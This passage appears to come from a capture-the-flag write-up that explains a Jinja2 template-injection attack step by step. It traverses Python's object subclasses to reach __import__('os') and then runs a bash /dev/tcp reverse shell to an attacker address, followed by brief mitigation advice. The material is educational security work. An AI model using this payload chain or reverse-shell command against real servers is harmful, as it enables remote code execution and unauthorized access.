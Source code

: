 **Step-by-step Analysis**

1.  **Traversal of Python Classes**:
    -   `().__class__` retrieves the class of an empty tuple (e.g., `<class 'tuple'>`).
    -   `().__class__.__base__` accesses the base class of `tuple`, which is `<class 'object'>`.
    -   `().__class__.__base__.__subclasses__()` enumerates all subclasses of the base `object` class.
        -   **Purpose**: This enables us to traverse the entire Python object hierarchy, including security-sensitive classes.
    -   **Why**:
        -   This traversal is necessary to gain access to internal classes that may expose sensitive or powerful functionality.
        -   The goal is to locate a class that allows interaction with Python's built-in capabilities, particularly those capable of importing modules or executing commands.
        -   Without this enumeration, we wouldn't be able to dynamically discover and exploit useful subclasses like `warnings.WarningMessage`.
    -   **Simple Terms**: It's like looking through a list of all possible tools in Python to find one that can break the system.

2.  **Finding a Specific Subclass**:
    -   `for x in ().__class__.__base__.__subclasses__()`: Iterates through all subclasses of `object`.
    -   `if "warning" in x.__name__`: Filters for a subclass where `"warning"` exists in the class name.
        -   Example match: `<class 'warnings.WarningMessage'>`.
    -   **Why**:
        -   Not all subclasses are useful for exploitation. The filter specifically targets classes that are likely to provide the `_module` attribute or similar access to the `__builtins__` dictionary.
        -   `warnings.WarningMessage` is chosen because it provides a pathway to Python's built-in functions through its `_module` attribute.
        -   We use this class as a pivot to access the dangerous `__builtins__['__import__']` method, which allows importing any module dynamically.
        -   **Simple Terms**: It's like picking a specific tool from the list (a warning-related tool) because it opens the door to other powerful tools hidden inside Python.

3.  **Accessing Built-in Functions**:
    -   `x()._module`: Accesses the module of the identified subclass.
    -   `.__builtins__`: Retrieves the built-in functions of the module.
    -   `['__import__']('os')`: Dynamically imports the `os` module.

4.  **Executing the Reverse Shell Command**:
    -   `os.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.80/9967 0>&1'").read()`: Opens a subprocess to execute a reverse shell command.
    -   **Effect**: The server connects to our machine (10.10.14.80) on port 9967, granting remote access.


#### Exploitation Mitigation Techniques: {#exploitation-mitigation-techniques}

-   **Input Validation**: Ensure user inputs are sanitized before being passed to the template.
-   **Use Sandboxed Template Engines**: Configure Jinja2 with a sandbox to limit its capabilities.
-   **Disable Dangerous Features**: Restrict access to functions like `__builtins__` or `os` that can execute arbitrary commands.


### Discovering Our User is part of the adm group: {#discovering-our-user-is-part-of-the-adm-group}
